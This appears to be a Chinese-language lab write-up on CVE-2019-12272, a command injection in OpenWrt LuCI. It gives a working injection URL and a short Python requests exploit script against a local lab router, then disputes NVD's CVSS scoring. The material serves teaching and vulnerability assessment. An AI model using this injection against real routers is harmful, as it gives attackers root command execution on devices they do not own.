

漏洞简介
关于该漏洞的简介，直接引用 中国国家信息安全漏洞库 CNNVD-201905-962 的漏洞简介：
OpenWrt LuCI是一款用于OpenWrt（Linux发行版）的图形化配置界面。
OpenWrt LuCI 0.10及之前版本中的admin/status/realtime/bandwidth_status和admin/status/realtime/wireless_status端点存在命令注入漏洞。该漏洞源于外部输入数据构造可执行命令过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞执行非法命令。
环境搭建
参考 第一章实验 OpenWrt on VirtualBox 的方法，下载安装存在该漏洞的 OpenWrt 镜像版本。
漏洞复现
先使用管理员账号登录 LuCI ，再使用浏览器访问 http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) 触发漏洞，再访问 http://192.168.56.3/cmd.txt 获取上一步命令执行的结果。
漏洞利用

通过 Chrome 浏览器开发者工具的「Copy as curl」功能，将漏洞复现请求复制为 curl 命令 ，然后通过第三方网站 将 curl 命令转换为 Python requests 代码 ，再稍加改动添加继续访问 /cmd.txt 并打印服务器响应，得到示例如下：
import requests
cookies = {
'sysauth': 'cbb84ab82b19f7b24f7c169ac53236d5',
}
headers = {
'Proxy-Connection': 'keep-alive',
'Pragma': 'no-cache',
'Cache-Control': 'no-cache',
'Upgrade-Insecure-Requests': '1',
'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36',
'DNT': '1',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
'Accept-Encoding': 'gzip, deflate',
'Accept-Language': 'zh-CN,zh;q=0.9,en;q=0.8',
}
response = requests.get('http://192.168.56.3/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)', headers=headers, cookies=cookies, verify=False)
# added by human
if response.status_code == 200:
response = requests.get('http://192.168.56.3/cmd.txt')
print(response.text)
else:
print("exp failed")
以上只是「抛砖引玉」，介绍一种快速将 Web 应用手工漏洞利用步骤变成「自动化脚本」的例子。如果需要更完善的漏洞利用效果，可以自行对「机器生成的代码」进行二次开发。
漏洞分析和修复
关于该漏洞的更详细的漏洞原理分析和修复方法可以查阅 CVE-2019-12272 OpenWrt图形化管理界面LuCI命令注入分析 这篇文章，此处不再赘述。
关于该漏洞的 CVSS 评分探讨
先附上美国国家信息安全漏洞库对该漏洞的评分情况截图如下：

在上述漏洞复现过程中我们已经验证过：该漏洞的有效利用前提是需要获得 LuCI 的「访问权限」。
在 OpenWrt 的默认配置里，LuCI 使用的是系统的 root 用户口令进行身份验证。当然如下图所示，可以通过 LuCI 菜单的 System->Administration 便捷的关闭 root 用户直接通过「口令验证」方式远程 SSH 到路由器上。

NVD 官方给出的漏洞评分「出人意料」的在 2 个版本的 CVSS 评分标准里均认为该漏洞的利用无需「身份认证」（CVSS 2.0）或「获得必要授权」（CVSS 3.0），这是该漏洞的评分过程「质疑点之一」。
其次，关于漏洞可能造成的危害影响，NVD 给出的 CVSS 2.0 和 3.0 标准的 CIA 影响评价居然不是一致的：
- CVSS 2.0 版本的评分里，漏洞危害被认为是「部分（
Partial）」影响CIA三要素； - CVSS 3.0 版本的评分里，漏洞危害被认为是「严重（
High）」影响CIA三要素；
还是根据实际的漏洞复现和漏洞分析可知：LuCI 的宿主进程 uhttpd 属主权限是 root ，因此对于影响到该进程的「代码执行」漏洞自然是以 root 用户身份执行的，所以漏洞危害评价为「严重」影响 CIA 三要素是「客观准确」的，对应的，这就是该漏洞的 CVSS 2.0 评分过程「质疑点之二」。
综合以上质疑点分别使用 CVSS 2.0 和 3.0 标准修正该漏洞的评分后得到：
- CVSS 2.0 9.0
- CVSS 3.0 8.8
对应 漏洞危害级别 均为：高危（High）。需要注意的是，经过上述评分修正，按照 CVSS 3.0 的漏洞评级标准，该漏洞不再是「最高等级：紧急（Critical）」（对应漏洞基础评分：9.0-10.0） 。对于 CVSS 2.0 评分标准来说，由于漏洞评价最高等级只有「高危（High）」（对应漏洞基础评分：7.0-10.0），所以并没有改变漏洞危害性程度评级。
除了漏洞评分质疑，我们还有注意到 NVD 的漏洞详情里，该漏洞的 Exploitability Score 在 CVSS 3.0 和 CVSS 2.0 里的评分相差巨大：3.9 VS. 10 ，但这和两者的计算公式发生了变化有关系。这 2 个看似悬殊巨大的「漏洞可利用性」评分已经分别对应各自标准里的「最高可利用性」评价了。
附 CVSS 在线计算器计算结果